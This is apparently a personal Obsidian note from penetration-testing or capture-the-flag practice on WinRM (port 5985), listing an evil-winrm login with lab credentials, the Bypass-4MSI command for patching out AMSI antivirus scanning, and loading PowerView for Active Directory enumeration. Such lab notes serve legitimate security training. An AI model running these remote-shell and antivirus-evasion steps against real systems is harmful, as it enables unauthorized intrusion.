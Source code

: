 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Winrm]]  
___

## Description:  

5985/tcp open  wsman



Log in with valid creds:

`evil-winrm -i 10.129.217.3 -u 'tony' -p 'liltony'

Bypass-4MSI: patchs AMSI protection. To get around This script contains malicious content and has been blocked by your antivirus software error: ^93aedf

`Bypass-4MSI
`Import-Module C:\Users\e.black\Documents\PowerView.ps1

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (02:58 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
